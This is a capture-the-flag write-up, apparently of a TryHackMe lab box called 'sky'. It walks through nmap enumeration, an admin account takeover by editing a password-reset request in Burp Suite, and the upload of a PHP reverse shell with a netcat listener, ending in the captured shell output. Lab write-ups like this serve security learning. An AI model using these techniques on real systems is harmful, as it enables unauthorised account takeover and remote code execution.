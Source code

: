 # Enumeration
## Nmap
Ran "Nmap -ST *IP* -p- -T4" to find all possible open ports.
Discovered that Port 22 and Port 80 were open.
Ran "Nmap -sV *IP* -p 22 -T4" and found Port 22 uses OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
Ran "Nmap -sV *IP* -p 80 -T4" and found Port 80 runs Apache httpd 2.4.41 (Ubuntu)
```console
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sT 10.10.116.209 -p- -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 01:51 GMT
Nmap scan report for 10.10.116.209
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 667.45 seconds
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sV 10.10.116.209 -p 22 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 02:05 GMT
Nmap scan report for 10.10.116.209
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sV 10.10.116.209 -p 80 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 02:26 GMT
Nmap scan report for 10.10.116.209
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```
# Exploitation
Opening Metasploit and searching for any exploits did not result in any findings.
Next, went to the webpage of the IP, nothing of interest was found on any of the pages, and neither in the Source Code.
Clicking on "Merchant Central" allows us to create a login.
Basic SQL Injection did not work here.
We created an account and logged in.
Majority of the  pages here did not work, but an Profile/Edit Profile page revealed an admin email of ```admin@sky.thm```

Using this email as the username, and running basic SQL Injection on the password did not work.
We logged back in as the user we created and noticed a reset user field, this allows us to reset the password for our account, without requiring the previous password. However, the username field is grayed out and did not allow us to change it.

We launched burp suite and used Proxy/Intercept to intercept the POST message of when we type in the new password. Sure enough, Burp Suite intercepted the POST message, and we were able to change the username field to ```admin@sky.thm``` and the password to ```password```

We logged out of our account and sure enough were able to login as the admin. Now it was time to go back to the terminal and see if we can SSH with these new credentials.

Sadly, it did not work.
```console
┌─[zionglitch@parrot]─[~]
└──╼ $ssh admin@sky.thm@10.10.105.174
The authenticity of host '10.10.105.174 (10.10.105.174)' can't be established.
ECDSA key fingerprint is SHA256:zSoCEcBBY73hNL9ItPA4CnB/405/W6GQYsl94qRMkOo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.105.174' (ECDSA) to the list of known hosts.
admin@sky.thm@10.10.105.174's password: 
Permission denied, please try again.
admin@sky.thm@10.10.105.174's password: 
Permission denied, please try again.
admin@sky.thm@10.10.105.174's password: 

┌─[✗]─[zionglitch@parrot]─[~]
└──╼ $ssh admin@10.10.105.174
admin@10.10.105.174's password: 
Permission denied, please try again.
admin@10.10.105.174's password: 
```
Going back to the website, we can see that the admin account is able to upload image files, let's try and upload a reverse shell file injection instead.
First let's find out win which directory the image is being uploaded by checking the profile picture.
It looks like it's located at *IP*/v2/profileimages.
Let's grab the following reverse shell php from GitHub, shoutout to Pentestmonkey.
```console
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
Let's edit the file and replace the IP with ours, and then open a new terminal and run Netcat.
```console
┌─[zionglitch@parrot]─[~]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
```
Now all we need to do is upload the php file on the Webpage and then go to the following link.
```console
http://10.10.184.168/v2/profileimages/phpreverseshell.php
```
And BAM!
```console 
connect to [10.13.27.44] from (UNKNOWN) [10.10.184.168] 50762
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:38:36 up 42 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
